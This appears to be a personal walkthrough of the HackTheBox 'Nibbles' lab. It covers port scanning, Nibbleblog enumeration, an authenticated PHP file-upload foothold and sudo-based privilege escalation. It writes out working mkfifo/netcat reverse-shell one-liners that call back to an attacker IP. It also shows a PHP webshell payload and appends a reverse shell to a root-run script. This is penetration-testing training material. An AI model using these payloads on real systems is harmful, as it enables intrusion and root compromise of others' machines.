> **Note:**
> IP addresses in this chapter can vary from time to vary, because they were not completed once. Every time when pwnbox was spawn on HackTheBox, IP address would be different (same as target IP address).
>
# Nibbles - Enumeration

## Nmap - Common flags

- `-p-`: The full port scan that has finished and has not found any additional ports.
- `-Sc`: Nmap script scan. These scripts can be intrusive, so it is always important to understand exactly how the tools work.
- `-oA`: Output all the scan, including XML output, greppable output, and text output that may be useful later on.

### initials Scan

```bash
nmap -sV --open -oA nibbles_initial_scan 10.129.42.190
```

This nmap command performs a service version detection scan on the target IP address. Let me break down each component:

- `nmap` - The network scanning tool itself
- `-sV`- Enables version detection. This probes open ports to determine what service/application is running and attempts to identify the specific version number. For example, it won't just tell you port 80 is open, but that it's running "Apache httpd 2.4.18"
- `--open` - Filters results to show only open ports. This excludes closed and filtered ports from the output, making your results cleaner and more actionable since you're typically only interested in services you can actually interact with
- `-oA nibbles_initial_scan` - Saves the scan results in all three major output formats with the basename "nibbles_initial_scan":

- `.nmap` (normal output - human readable)
- `.xml` (XML format - good for importing into other tools)
- `.gnmap` (greppable format - easy to parse with command-line tools)

`10.129.42.190` - The target IP address being scanned

### Double confirmation of the finding

```bash
nc -nv 10.129.42.190 22
```

Script Scanning:

```bash
nmap -sC -p 22,80 -oA nibbles_script_scan 10.129.42.190
```

### Q1

Run an nmap script scan on the target. What is the Apache version running on the server? (answer format: X.X.XX)

```bash
nmap -sV --open -oA nibbles_initial_scan 10.129.36.172
```


### Answer

```
2.4.18
```

---

# Nibbles - Web Foorprinting

Target: `10.129.41.73`

### Prerequisite

```
whatweb 10.129.41.73
curl http://10.129.41.73
gobuster dir -u http://10.129.41.73/nibbleblog/ --wordlist /usr/share/seclists/Discovery/Web-Content/common.txt
curl http://10.129.41.73/nibbleblog/README
curl -s http://10.129.41.73/nibbleblog/content/private/users.xml | xmllint  --format -

```


## Vulnerablity of this website

Gobuster finishes very quickly and confirms the presence of the admin.php page. We can check the README page for interesting information, such as the version number.


So we validate that version 4.0.3 is in use, confirming that this version is likely vulnerable to the Metasploit module (though this could be an old README page). Nothing else interesting pops out at us. Let us check out the admin portal login page.


Now, to use the exploit mentioned above, we will need valid admin credentials. We can try some authorization bypass techniques and common credential pairs manually, such as admin:admin and admin:password, to no avail. There is a reset password function, but we receive an e-mail error. Also, too many login attempts too quickly trigger a lockout with the message Nibbleblog security error - Blacklist protection.


Browsing to `nibbleblog/content` shows some interesting subdirectories public, private, and tmp. Digging around for a while, we find a `users.xml` file which at least seems to confirm the username is indeed admin. It also shows blacklisted IP addresses. We can request this file with cURL and prettify the XML output using xmllint.


Now we have a username `admin`, but no password.

What we have so far:

- A Nibbleblog install potentially vulnerable to an authenticated file upload vulnerability
- An admin portal at `nibbleblog/admin.php`
- Directory listing which confirmed that `admin` is a valid username
- Login brute-forcing protection blacklists our IP address after too many invalid login attempts. This takes login brute-forcing with a tool such as **Hydra** off the table


# Discover the password

### Tools

- <https://github.com/digininja/CeWL>
- Hashcat

But for this case, you can gain a hint from `config.xml` about the password.

```
nibbles
```

Of course, there might be a "better" and "quieter" method to brute force the password.


---

# Nibbles - Initial Foothold

### Rapid 7 report - Nibbleblog File Upload Vulnerability

- Link: <https://www.rapid7.com/db/modules/exploit/multi/http/nibbleblog_file_upload/>
- **Description**: Nibbleblog contains a flaw that allows an authenticated remote
attacker to execute arbitrary PHP code. This module was
tested on version 4.0.3.

The Metasploit module in question works for version `4.0.3`. We do not know the exact version of Nibbleblog in use yet, but it is a good bet that it is vulnerable to this. If we look at the source code of the Metasploit module, we can see that the exploit uses user-supplied credentials to authenticate the admin portal at `/admin.php`

### PHP Snippet

Let's try upload PHP code instead of image, the following snippet is for testing code execution.

```php
<?php system('id'); ?>
```


I saved it in a file `test.png` and upload it.


Then I got a bunch of errors after uploading it.


Check the `/Content/plugins/my_image`, the code snippet had been uploaded.


```
curl http://10.129.41.73/nibbleblog/content/private/plugins/my_image/test.png
```

It doesn't worl, it seems the file format isn't correct.


I redo again the steps but name the file `image.php`.


```
curl http://10.129.41.73/nibbleblog/content/private/plugins/my_image/image.php
```

And it works this time. Though I got errors while uploading it, it was successfully uploaded.


# Reverse Shell

I have proved the plugin form allows executable and execution.

Now, let's add reverse shell one liner.

We will add our tun0 VPN IP address in the <ATTACKING IP> placeholder and a port of our choice for <LISTENING PORT> to catch the reverse shell on our netcat listener. See the edited PHP script below.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> 9443 >/tmp/f
```

The completed PHP snippet for this attack:

```php
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.234 9443 >/tmp/f"); ?>
```


Set up a netcat listener

```
nc -lvnp 9443
```

`cURL` the image page again or browse to it in Firefox at <http://nibbleblog/content/private/plugins/my_image/image.php> to execute the reverse shell.


```
curl http://10.129.41.73/nibbleblog/content/private/plugins/my_image/image.php
```

Got it!


Furthermore, we have a reverse shell. Before we move forward with additional enumeration, let us upgrade our shell to a "nicer" shell since the shell that we caught is not a fully interactive TTY and specific commands such as `su` will not work, we cannot use text editors, tab-completion does not work, etc. This post explains the issue further as well as a variety of ways to upgrade to a fully interactive TTY. For our purposes, we will use a Python one-liner to spawn a pseudo-terminal so commands such as `su` and `sudo` work as discussed previously in this Module.


Try the various techniques for upgrading to a full TTY and pick one that works best for you. Our first attempt fails as Python2 seems to be missing from the system!

Let's try using python3, and done!

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### Flag

In `usser.txt`.


---

# Privilege Escalation

- Attacker: `10.10.14.234`
- Target: `10.129.223.57`, `10.129.222.46`

In case you need to do it again:

```bash
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.234 9443 >/tmp/f"); ?>

curl http://10.129.222.46/nibbleblog/content/private/plugins/my_image/image.php


```

### First thing first

Let's unzup `personal.zip`.


```bash
unzip personal.zip
```

### `monitor.sh`

This is a Bash system monitoring script that displays various system information. Let me break down what it does:



```sh
cat monitor.sh
                  ####################################################################################################
                  #                                        Tecmint_monitor.sh                                        #
                  # Written for Tecmint.com for the post www.tecmint.com/linux-server-health-monitoring-script/      #
                  # If any bug, report us in the link below                                                          #
                  # Free to use/edit/distribute the code below by                                                    #
                  # giving proper credit to Tecmint.com and Author                                                   #
                  #                                                                                                  #
                  ####################################################################################################
#! /bin/bash
# unset any variable which system may be using

# clear the screen
clear

unset tecreset os architecture kernelrelease internalip externalip nameserver loadaverage

while getopts iv name
do
        case $name in
          i)iopt=1;;
          v)vopt=1;;
          *)echo "Invalid arg";;
        esac
done

<SNIP>
```

**Purpose**: Collects and displays system details like OS info, hardware specs, network configuration, and performance metrics.

**Key features from what's shown**:

- **Command-line options**: Uses `getopts` to parse flags:
  - `-i` flag sets `iopt=1`
  - `-v` flag sets `vopt=1`
  - Invalid arguments trigger an error message

- **Clean slate approach**: The script starts by unsetting variables to avoid conflicts with existing environment variables that might have the same names (like `os`, `architecture`, etc.)

- **Variables it plans to gather**: Based on the unset list, it will collect:
  - Operating system details
  - Architecture (32/64-bit, CPU type)
  - Kernel release version
  - Internal/external IP addresses
  - DNS nameservers
  - System load average

The `<SNIP>` indicates there's more code that actually gathers and displays this information. Typically these scripts will use commands like `uname`, `hostname`, `ifconfig`/`ip`, `uptime`, and parse `/etc/resolv.conf` to populate those variables, then format and print them nicely.

This type of script is commonly used for quick system health checks or as part of penetration testing reconnaissance to understand the target environment. Is this from one of your HTB exercises?

# `LinEnum.sh`

> Link to the file (Download to the VM): <https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh>

Let us put this aside for now and pull in `LinEnum.sh` to perform some automated privilege escalation checks. First, download the script to your local attack VM or the Pwnbox and then start a Python HTTP server using the command `sudo python3 -m http.server 8080`.



Back on the target type wget http://<your ip>:8080/LinEnum.sh to download the script. If successful, we will see a 200 success response on our Python HTTP server. Once the script is pulled over, type `chmod +x LinEnum.sh` to make the script executable and then type `./LinEnum.sh` to run it. We see a ton of interesting output but what immediately catches the eye are sudo privileges.


*Get the file in target's device*.


We can see the log of the server, target `10.129.223.57` gets the file `LinEnum.sh`.


Make `LinEnum.sh` exxcutable.


Check if it's executable, and then execute `LinEnum.sh` without `sudo`.

Some system-level info:


We can even check the log of loggin activites.


Our activity has been recored by the system.


## Sudo Privilege of use `nibbler`

The nibbler user can run the file `/home/nibbler/personal/stuff/monitor.sh` with root privileges. Being that we have full control over that file, if we append a reverse shell one-liner to the end of it and execute with sudo we should get a reverse shell back as the root user.

Info about `sudo` privilege, and this is what I'm most interested.


Plus, some info about software.


Compiler info can be useful, whilst SUID might be used in the later chapters.


### Reverse shell for `monitor.sh`

Let us edit the monitor.sh file to append a reverse shell one-liner.

```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.234 8443 >/tmp/f' | tee -a monitor.sh
```

If we cat the `monitor.sh` file, we will see the contents appended to the end.

> **Note:** It is crucial if we ever encounter a situation where we can leverage a writeable file for privilege escalation. We only append to the end of the file (after making a backup copy of the file) to avoid overwriting it and causing a disruption. Execute the script with `sudo`:

```bash
sudo /home/nibbler/personal/stuff/monitor.sh
```

While another terminal set a netcat listener on port 8443


```
nc -lvnp 8443
```

And we got the shell.


Check the role and directory, then find the flag for this challenge.


Done.

---

# Nibbles - Alternate User Method - Metasploit

There is also a Metasploit module that works for this box.

- Attacker: `10.10.14.234`
- Target: `10.129.222.46`

